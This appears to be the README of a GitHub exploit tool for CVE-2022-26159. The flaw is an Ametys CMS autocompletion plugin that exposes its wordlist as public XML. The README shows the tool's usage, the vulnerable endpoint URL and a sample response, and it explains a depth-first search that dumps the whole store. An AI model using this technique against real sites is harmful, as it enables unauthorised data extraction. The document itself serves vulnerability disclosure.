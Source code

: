 # CVE-2022-26159-Ametys-Autocompletion-XML

<p align="center">
    A python exploit to automatically dump all the data stored by the auto-completion plugin of Ametys CMS to a local sqlite database file.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/CVE-2022-26159-Ametys-Autocompletion-XML">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>


![](.github/example.png)

## Features

 - [x] Automatic detection of maximum results returned by the autocompletion plugin.
 - [x] Depth first search to dump all the results.
 - [x] Output log file.

## Usage

```
$ ./CVE-2022-26159-Ametys-Autocompletion-XML.py -h
CVE-2022-26159-Ametys-Autocompletion-XML v1.1 - by @podalirius

usage: CVE-2022-26159-Ametys-Autocompletion-XML.py [-h] -t TARGET [-H HEADERS] [-k] [-v | -q] [--no-colors]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        arg1 help message
  -H HEADERS, --header HEADERS
                        Specify HTTP headers to use in requests. (e.g., --header "Header1: Value1" --header "Header2: Value2")
  -k, --insecure        Disable SSL/TLS warnings and certificate verification.
  -v, --verbose         Verbose mode. (default: False)
  -q, --quiet           Quiet mode. (default: False)
  --no-colors           Disables colored output. (default: False)

```

## Technical details

The autocompletion plugin in Ametys CMS <= 4.4.9 exposes publicly an XML file containing a wordlist at the following address:

```
https://domain.tld/plugins/web/service/search/auto-completion/domain/en.xml
```

To perform a request on this database, an attacker just needs to type the start of the word in the `q` (query) parameter:

```
https://domain.tld/plugins/web/service/search/auto-completion/domain/en.xml?q=adm
```

And the auto-completion plugin returns the first 10 matching words starting with `adm` (from the query) in an XML file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<auto-completion>
    <item>administrateur</item>
    <item>administrateurs</item>
    <item>administratif</item>
    <item>administratifs</item>
    <item>administration</item>
    <item>administrations</item>
    <item>administrative</item>
    <item>administratives</item>
    <item>administres</item>
    <item>admission</item>
</auto-completion>
```

With this in mind, an attacker just needs to perform a [depth first search on the API](https://podalirius.net/en/articles/scraping-search-apis-depth-first-style/) to extract all the content of it.

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.

## References
 - https://podalirius.net/en/cves/2022-26159/
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-26159
 - https://issues.ametys.org/browse/CMS-10973
 - https://podalirius.net/en/articles/scraping-search-apis-depth-first-style/

